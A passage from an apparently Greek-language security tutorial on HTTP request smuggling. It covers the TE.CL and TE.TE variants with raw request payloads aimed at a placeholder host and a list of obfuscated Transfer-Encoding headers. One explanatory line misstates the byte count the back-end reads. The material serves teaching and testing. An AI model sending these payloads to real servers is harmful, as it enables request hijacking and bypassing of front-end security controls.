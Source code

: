 #### TE.CL Ευπάθεια (Transfer-Encoding χρησιμοποιείται από Front-End, Content-Length χρησιμοποιείται από Back-End)

* **Front-End (TE):** Επεξεργάζεται το request με βάση την κεφαλίδα `Transfer-Encoding`.
* **Back-End (CL):** Επεξεργάζεται το request με βάση την κεφαλίδα `Content-Length`.
* **Σενάριο Επίθεσης:**
* Ο επιτιθέμενος στέλνει ένα chunked request όπου το μέγεθος του chunk (`7b`) και το πραγματικό μήκος περιεχομένου (`Content-Length: 4`) δεν ευθυγραμμίζονται.
* Ο front-end server, τιμώντας το `Transfer-Encoding`, προωθεί ολόκληρο το request στον back-end.
* Ο back-end server, σεβόμενος το `Content-Length`, επεξεργάζεται μόνο το αρχικό μέρος του request (`7b` bytes), αφήνοντας το υπόλοιπο ως μέρος ενός μη προγραμματισμένου επόμενου request.
*   **Παράδειγμα:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0

```

#### TE.TE Ευπάθεια (Transfer-Encoding χρησιμοποιείται και από τους δύο, με παραπλάνηση)

* **Servers:** Και οι δύο υποστηρίζουν `Transfer-Encoding`, αλλά ένας μπορεί να παραπλανηθεί ώστε να το αγνοήσει μέσω παραπλάνησης.
* **Σενάριο Επίθεσης:**
* Ο επιτιθέμενος στέλνει ένα request με παραπλανημένες κεφαλίδες `Transfer-Encoding`.
* Ανάλογα με το ποιος server (front-end ή back-end) αποτυγχάνει να αναγνωρίσει την παραπλάνηση, μπορεί να εκμεταλλευτεί μια ευπάθεια CL.TE ή TE.CL.
* Το μη επεξεργασμένο μέρος του request, όπως φαίνεται από έναν από τους servers, γίνεται μέρος ενός επόμενου request, οδηγώντας σε smuggling.
*   **Παράδειγμα:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
